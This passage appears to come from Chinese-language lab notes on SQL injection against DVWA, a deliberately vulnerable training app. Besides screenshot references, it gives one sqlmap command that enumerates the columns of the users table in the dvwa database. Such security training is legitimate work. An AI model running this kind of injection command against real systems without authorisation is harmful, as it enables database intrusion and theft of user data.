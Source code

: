 ![image-20220219134058230](../../images/image-20220219134058230.png)

注入dvwa库下，users表下的列名。

`sqlmap -r 1.txt -D dvwa -T users --columns`

![image-20220219134324545](../../images/image-20220219134324545.png)

![image-20220219134359203](../../images/image-20220219134359203.png)
